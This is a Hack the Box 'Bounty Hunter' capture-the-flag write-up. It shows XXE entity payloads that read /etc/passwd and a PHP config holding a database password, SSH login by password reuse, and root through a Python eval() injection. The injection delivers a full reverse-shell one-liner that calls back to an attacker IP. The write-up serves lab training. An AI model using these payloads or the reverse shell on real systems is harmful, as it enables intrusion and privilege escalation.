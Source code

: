 ```yaml
---
description: Hack the Box Bounty Hunter writeup
---
```


# 💵 Bounty Hunter Writeup

![](.gitbook/assets/bounty.PNG)

Right off the bat we want to start with an nmap scan to get a sense of what services are running on this box. To do this we run our trusty -sV -sC options to use default scripts and identify versions of services.

![](.gitbook/assets/nmap1.PNG)

Almost immediately we get feedback from nmap saying it can't tell if the box is up because it is blocking our ping probes. I immediately went back to HTB to make sure I was connected and the box was for sure up and running. After confirming this I ran nmap with the added -Pn that is recommended to mark the host as up.

![](.gitbook/assets/nmap2.PNG)

After letting this scan run for a few seconds we get these results back. There are a good number of ports here but the main ones we want to look at are the ones marked as open. We can see port 22 open for OpenSSH version 8.2p1, which is a secure version. All we can do with this service is brute force the usernames and passwords so we will save that for later and continue looking around.

The other open port is port 80 which is being used by an Apache http server. This is very interesting and something we definitely should look at. First I fired up dirbuster and set it running then I opened up Firefox and plugged in the IP and was greeted with the homepage:

![](.gitbook/assets/web1.PNG)

Doing some manual poking around we can find a contact form at the bottom of this homepage. Great! Some user input! Not so fast. It doesn't function and doesn't even send a POST request back to the server. After some more poking around we find /portal.php, which is linked in the top right of the homepage.

![](.gitbook/assets/web2.PNG)

As you can see, the portal is under development and there is a link to another form that we can "test". This is a telltale sign that the form being linked probably hasnt been vetted very well yet. Lets check it out.

![](.gitbook/assets/web3.PNG)

Looks like a simple form. Lets check if its connected to anything. Opening developer tools we can choose the network tab and view any traffic being sent to and from our browser. I just filled out the form with some random variables just to test it out and clicked submit...

![](.gitbook/assets/web4.PNG)

It is connected! Now that is definitely not plaintext being sent to the server so lets figure out how the data is being encoded and what format its being put into. To do this I copied the data into a tool call [CyberChef](https://gchq.github.io/CyberChef/).

In CyberChef I tinkered around with a few options to see what I could decode. The first, and most obvious, is that it needs to be URL decoded. The signs for this is that special characters are encoded with %xx, an example is '+' becomes '%2B'. After getting it into the right format I put the next piece of the puzzle together and added base64 decode which allowed me to see the data in plaintext.

![](.gitbook/assets/CyChef.PNG)

In the output section we can see that the data is being sent in xml formatting. This is interesting because there is a well known exploit that we can try using this formatting called [XXE](https://owasp.org/www-community/vulnerabilities/XML\_External\_Entity\_\(XXE\)\_Processing).

Lets try out putting some commands into the data and re sending the request. For reference here is the payload I created:

![](.gitbook/assets/CyChef2.PNG)

If you 'edit and resend' the request we orginally got the encoded data from we can replace the data with the new data we created and send it. What we want to see returned is the content of /etc/passwd.

![](.gitbook/assets/exp1.PNG)

BOOM! We get the contents of /etc/passwd printed out. Lets have a look around and see what files we can read and get info from. After trying to get some data like root.txt or config files I have nothing and am stuck. I know I am supposed to use this to get some set of credentials or a hint to what to do next. I looked over at dirbuster, which was still running, and saw there was a db.php. I tried to load it in my browser but got nothing back. There had to be something interesting on the backend though so lets try to grab it with the XXE vulnerability we found.

requesting the contents of the file I got back a different response than the ones I didnt have permssion to review. This suggested I should be able to get the contents but something was restricting it from printing it out on the webpage. A trick we could try from here is to try to encode it as base64 and have that print out instead. To do this I switched:

```
<!ENTITY file SYSTEM "file:///var/www/html/db.php">
]>
```

To:

```
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

I plugged it in and pressed send...

![](.gitbook/assets/exp2.PNG)

Success! We got a base64 encoded return. Lets see what it says.

The decoded result is:

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We got creds! Now what can we use them for? Well there was an ssh server in the nmap scan we ran earlier so lets see if the creds are the same.

I tried logging in with admin as the username, no success. What about test? Nope. Bounty? Again no. So what could the username be?

Luckily I was keeping note of the data I was getting and realized I had gotten the passwd file contents earlier and I could see the users on the device from that. Looking at it we can see there is a user named 'development'. I tried that username with the password found in the db.php file and BAM! We got a shell.

From this user we get the user flag and can submit that. In the users home directory is another file along with the flag though called contract.txt.

![](.gitbook/assets/usr.PNG)

As you can see, the file contains a note from 'John' saying that he setup permissions for this user to figure out why certain tickets have been failing validation. Lets see what type of permissions...

Running 'sudo -l' we get back:

> User development may run the following commands on bountyhunter: (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain\_inc/ticketValidator.py

Looks like we have root permissions, without a password, to run a python script. This is an easy priv esc if we can write to the python script so lets go check it out.

![](.gitbook/assets/usr2.PNG)

Checking the permissions it looks like we don't have write permissions for this file, damn. But we can read it, so lets see what it is doing and if we can manipulate it another way.

Reading through it looks like it takes in a MD file and evaluates if its a valid ticket or not. Because it takes in input lets see if we can trick it into executing something as root.

Looking through the script there seems to only be one exploitable section and its the eval function:

```
if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
```

To get to this function we are going to have to format a ticket correctly so it reaches the initial if statement, passes that, then the next line has to start with '\*\*' and the integer following this had to have a modulo of 4. Using this info and some of the example invalid tickets that are in the folder in the same directory we can create our own ticket with our own command to execute. Mine looked like this:

```
# Skytrain Inc
## Ticket to test
__Ticket Code:__
**102+ 10 == 112 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

I have it sending a shell back to me via python. Now all I should have to do is setup a listener with nc and execute the python script as root with the MD file I made as the input.

![](.gitbook/assets/pwn.PNG)

PWNED!



GG HTB
